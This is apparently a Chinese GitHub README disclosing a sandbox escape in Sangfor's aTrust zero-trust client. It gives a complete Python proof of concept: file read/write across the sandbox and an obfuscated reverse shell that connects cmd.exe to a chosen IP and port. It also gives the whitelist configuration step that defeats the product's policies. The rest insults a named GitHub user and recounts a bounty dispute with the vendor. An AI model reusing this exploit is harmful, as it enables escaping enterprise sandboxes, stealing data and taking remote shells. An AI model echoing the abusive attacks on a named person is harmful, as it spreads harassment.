



# [正式申明 <-- 点击此处](https://github.com/DaxiaSec/officalSM)


# SXF_aTrust_sandbox_bypass
深信服零信任沙箱逃逸( 正常功能，所以我也不打算再提交CNVD, 给使用这款产品的用户介绍下这个神奇的功能效果 ）


# 耻辱柱
@hluwa https://github.com/DaxiaSec/SXF_aTrust_sandbox_bypass/issues/10
此人无德，有五:

* 其一，擅于意淫, 本项目或issue下未说过本人技术如何牛逼，从事实角度出发描述一个正常功能，也未瞧不起任何同行，本来安全圈就是互帮互助，通过开源学习到了很多技术和知识，而且入行以来也从未割韭菜而是低调的做安全行业本分的事情，请问您是如何意淫到本人吹嘘自己牛逼的？
* 其二，颠倒黑白，一个描述事实的项目，为何在你眼里变成卖惨？我虽是个人，面对的是一个厂商，在道义正确的情况下，我没有屈服和让步，在知道他们不会止步于此时，但我还会继续面对，争取合法权益，这是一种你一辈子都拿不出的勇气。
* 其三，罔顾现实，你说我在公共社区"拉屎", 暂且不说你是有什么权利对待他人的项目，就事实而言，我不得向你介绍一下这个项目的由来，背景嘛？这必然会需要涉及到介绍厂商和具体的场景，可是一谈事实，你却又说要谈技术，正也是你，反也是你。一个事实都不谈的人，有何脸面立于天地之间。
* 其四，品质低劣，我为自己发声，不知为何得罪于你。聊事实，不谈。聊技术，说我在吹自己牛。最后给人按上自己意淫的title，你自己看看在issue的结语，是不是在说你自己？
* 其五，自私自利，害人害己。厂商说Github是境外，赛博鼠说Github是卖国。你不在乎。你自己Github用的美滋滋，还自诩公共社区“粪便”管理员。因为你只看到自己的利益，到时候卖国的大棒打到你头上估计你比谁都会叫唤。Github本来就是优秀项目走进了，走出去的很好的平台，某些人自己用Github却容不得别人使用，还想指挥别人按照他的想法删减内容，这种人格分裂，自私自利，实属罕见。


https://github.com/DaxiaSec/SXF_aTrust_sandbox_bypass/issues/12

# 一、功能介绍
* 环境：鹏程众测
* 类型：sandbox bypass
* 危害：无，正常业务功能罢了
* 权限：登陆后

## 1. 将如下py编译为exe
```python
import string
import random

def random_string(length):
    return ''.join(random.choice(string.ascii_letters) for m in range(length))

def readanyfile(filepath):
    with open(filepath,"rb") as f:
        contentbytes = f.read()
    print(contentbytes)
    return contentbytes

def writeanyfile(filepath, contentbytes):
    contentbytes = contentbytes
    with open(filepath,"wb") as f:
        f.write(contentbytes)

def reverseshell(ip,port):
    try:
        (lambda __y, __g, __contextlib: [[[[[[[(s.connect((ip, port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))
    except:
        pass


def main():
    c = input("[1] 文件逃逸 [2] 反弹shell [3]退出:\n")
    if c == "1":
        print("[1-1] 验证：数据进入沙箱")
        in_sand = input("沙箱内文件路径:\n")
        writeanyfile(in_sand, "flag_{}_".format(random_string(20)).encode())
        print("请确认沙箱内{}文件写入flag\n\n".format(in_sand))
        
        print("[1-2]验证：数据出沙箱")
        out_sand = input("沙箱外文件路径:\n")
        writeanyfile(out_sand,readanyfile(in_sand))
        print("请确认沙箱外{}文件与沙箱内文件数据一致\n\n".format(out_sand))
    elif c == "2":
        ip = input("IP:\n")
        port = input("PORT:\n")
        reverseshell(ip,int(port))
    elif c=="3":
        exit()

while True:
    main()
```

pyinstaller -F taoyi_yanshi.py

## 2. 在安装名单配置上编译出的taoyi_yanshi.exe
功能名称是: 程序安装白名单

功能描述是(此处一字不漏): 此功能可用于无痕模式时保护数据不被自动清除；也可用于解决程序在工作空间安装后使用异常问题(名单内的安装包在工作空间安装时，释放的文件会落盘到个人空间，安装完成后程序产生的数据会落盘到工作空间，即程序安装在个人空间，但运行仍在工作空间)

你可能会好奇，在登录后台有专门一页可以配置安全策略，如'文件导入导出控制'，'剪切板拷贝控制'等，那儿不是配置安全策略的？
想多了，根本不需要那么复杂，配置安装名单比配置策略好用多了，而且其可以让安全策略完全失效，毕竟哪位睿智能想到避免清空数据的功能可以穿越沙箱。
是的，不要怀疑自己，就是这么牛逼。


## 3. 效果
* 程序可以沙箱内外任意写
* 程序落地数据，明文可读


# 二、交涉过程
* 5.10 发现问题
* 5.14 沟通情况，电话说需证明反弹shell, **给出了收录价格**
* 5.18 提交漏洞详情，证明反弹shell
* 5.20-5.30 争议
* 5.30 发群里仲裁
* 5.30 - 6.10 说价格不合适，现在是讨论价格？是你们压根不认为是漏洞，要吃掉吧，然后不回消息


### 仲裁情况？


群聊完整图：





上面就是完整的聊天记录，请问哪里看出来有群友否认这个不是漏洞？？

### 为什么不让小团体仲裁？

赛博大佬说用github都是卖国的，小心赛博大佬黑了你们。

留个位置先，这位更是重量级傻狗。


